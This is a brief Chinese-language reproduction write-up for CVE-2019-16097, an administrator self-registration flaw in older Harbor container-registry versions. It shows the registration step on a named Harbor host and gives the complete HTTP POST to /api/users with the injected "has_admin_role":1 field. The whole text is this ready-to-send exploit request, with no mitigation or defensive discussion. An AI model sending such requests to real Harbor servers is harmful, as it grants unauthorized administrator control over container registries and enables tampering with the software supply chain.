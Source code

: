 ## CVE-2019-16097
### Harbor较老版本的任意管理员注册漏洞

### 复现步骤

- 访问：https://id-cicd.harbor.com/harbor/sign-in，点击注册，输入信息后提交抓包

加入"has_admin_role":1成功注册管理员账号
```
POST /api/users HTTP/1.1
Host: id-cicd.harbor.com
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:75.0) Gecko/20100101 Firefox/75.0
Accept: application/json
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/json
Content-Length: 130
Origin: https://id-cicd.harbor.com
Connection: close
Referer: https://id-cicd.harbor.com/harbor/sign-in
Cookie: beegosessionID=1
X-Forwarded-For: 192.168.1.1

{"username":"harbor","email":"harbor@qq.com","realname":"admin222","password":"harbor123","comment":"1111","has_admin_role":1}
```
